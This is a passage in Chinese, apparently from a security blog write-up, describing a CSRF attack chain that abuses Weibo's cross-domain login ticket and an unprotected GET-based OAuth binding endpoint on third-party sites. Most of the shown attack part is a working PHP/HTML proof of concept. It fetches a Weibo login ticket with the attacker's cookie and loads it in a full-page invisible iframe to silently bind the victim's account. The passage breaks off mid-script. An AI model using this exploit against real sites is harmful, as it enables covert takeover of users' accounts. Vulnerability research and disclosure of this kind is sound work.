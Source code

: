 我们现在具备的几个条件：
1. 微博的`CSRF之你登陆我的账号`缺陷：
登陆你的微博，然后访问[http://login.sina.com.cn/sso/crossdomain.php?action=login，会返回这样的内容给你：](http://login.sina.com.cn/sso/crossdomain.php?action=login%EF%BC%8C%E4%BC%9A%E8%BF%94%E5%9B%9E%E8%BF%99%E6%A0%B7%E7%9A%84%E5%86%85%E5%AE%B9%E7%BB%99%E4%BD%A0%EF%BC%9A)

[![](https://p2.ssl.qhimg.com/t01e623d19e5df0edb4.png)](https://p2.ssl.qhimg.com/t01e623d19e5df0edb4.png)

其中arrURL对应的链接就是凭证登陆的~
1. 你的微博已经授权过了要存在缺陷的网站(这里方便直接跳转而不用再去点击按钮！所以你可以先用自己的微博绑定下存在缺陷的网站的账号，然后解绑就行了~)
1. 绑定请求存在csrf的缺陷（这里因为是GET请求类型 `/oauth/weibo/redirect`，而一般不会对GET请求类型进行CSRF的限制~~）


### <a class="reference-link" name="%E5%9C%BA%E6%99%AF1.%E6%94%BB%E5%87%BB%E6%AD%A5%E9%AA%A4%EF%BC%9A"></a>场景1.攻击步骤

对方点开凭证链接登陆了你的微博，对方点开绑定微博的链接，绑定了你的微博，完成攻击。

考虑到凭证时效性的问题，在这里写了一个动态的PoC：

```
&lt;?php
//get weibo login token
$curl = curl_init();
$cookie = "你微博的Cookie";
curl_setopt($curl, CURLOPT_URL, 'http://login.sina.com.cn/sso/crossdomain.php?action=login');
curl_setopt($curl, CURLOPT_HEADER, 1);
curl_setopt($curl, CURLOPT_COOKIE, $cookie);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
$data = curl_exec($curl);
curl_close($curl);
//echo $data;
$t = preg_match('/ticket=(.*?)&amp;sso/', $data, $res);
$url = "https://passport.weibo.com/wbsso/login?ticket=`{`$res[1]`}`&amp;ssosavestate=1556602678";
?&gt;

&lt;html&gt;
&lt;head&gt;
&lt;style type="text/css"&gt; 
.testframe `{`
    height: 100%;
`}` 
iframe `{`
    height: 100%;
    width: 100%;
    border: 0;
    margin: 0;
    padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
`}`
&lt;/style&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;div class="testframe"&gt;
    &lt;iframe id="test0" src="&lt;?php echo $url;?&gt;"&gt;&lt;/iframe&gt;
&lt;/div&gt;
&lt;script&gt;
function loadsrc()`{`
```